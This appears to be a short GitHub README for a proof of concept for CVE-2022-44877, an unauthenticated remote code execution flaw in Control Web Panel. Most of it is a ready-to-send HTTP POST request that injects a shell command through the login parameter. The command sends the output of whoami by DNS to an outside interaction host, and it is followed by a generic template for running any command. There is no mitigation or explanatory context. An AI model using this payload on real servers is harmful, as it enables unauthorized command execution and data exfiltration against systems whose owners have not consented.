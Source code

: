# CVE-2022-44877

### Control Web Panel Unauth RCE
POC usage:
```
POST /login/index.php?login=$(ping${IFS}-nc${IFS}2${IFS}whoami.{{interactsh-url}}) HTTP/1.1
Host: vuln
Content-Type: application/x-www-form-urlencoded
```
payload
```
?login=$(input command)
```
